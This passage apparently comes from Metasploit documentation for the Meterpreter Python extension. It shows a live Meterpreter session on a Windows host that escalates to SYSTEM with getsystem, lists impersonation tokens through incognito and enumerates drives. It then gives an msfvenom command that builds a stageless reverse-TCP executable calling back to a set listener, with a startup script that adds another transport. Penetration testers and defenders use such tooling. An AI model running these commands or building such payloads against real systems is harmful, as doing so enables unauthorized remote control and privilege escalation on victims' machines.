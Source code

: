 ### Bindings example

```msf
meterpreter > getuid
Server username: WIN-TV01I7GG7JK\oj
meterpreter > python_execute "import meterpreter.user; print meterpreter.user.getuid()"
[+] Content written to stdout:
WIN-TV01I7GG7JK\oj

meterpreter > python_execute "import meterpreter.elevate; meterpreter.elevate.getsystem()"
[+] Command executed without returning a result
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > python_execute "meterpreter.elevate.rev2self(); print meterpreter.user.getuid()"
[+] Content written to stdout:
WIN-TV01I7GG7JK\oj

meterpreter > use incognito
Loading extension incognito...success.
meterpreter > python_execute "import meterpreter.incognito; print meterpreter.incognito.list_user_tokens()"
[+] Content written to stdout:
{'Delegation': ['NT AUTHORITY\\LOCAL SERVICE', 'NT AUTHORITY\\NETWORK SERVICE', 'NT AUTHORITY\\SYSTEM', 'WIN-TV01I7GG7JK\\oj'], 'Impersonation': ['NT AUTHORITY\\ANONYMOUS LOGON']}

meterpreter > python_execute "import meterpreter.fs; print meterpreter.fs.show_mount()"
[+] Content written to stdout:
[{'Name': 'A:\\', 'SpaceUser': None, 'SpaceTotal': None, 'UNC': None, 'SpaceFree': None, 'Type': 2}, {'Name': 'C:\\', 'SpaceUser': 28950585344L, 'SpaceTotal': 64422408192L, 'UNC': None, 'SpaceFree': 28950585344L, 'Type': 3}, {'Name': 'D:\\', 'SpaceUser': None, 'SpaceTotal': None, 'UNC': None, 'SpaceFree': None, 'Type': 5}]
```

## Stageless Initialisation
Not only can the extension be baked into a stageless Meterpreter, like any other extension, it also has the ability to run an arbitrary script before the Meterpreter session is even established! Consider the following script:
```
$  cat /tmp/met.py
import meterpreter.transport
meterpreter.transport.add("tcp://127.0.0.1:8000")
```

To create a stageless payload that uses this script, we can make use of the `EXTINIT` parameter in `msfvenom`:
```
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4445 EXTENSIONS=stdapi,priv,python EXTINIT=python,/tmp/met.py -f exe -o /tmp/met-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 6412437 bytes
Saved as: /tmp/met-stageless.exe
```
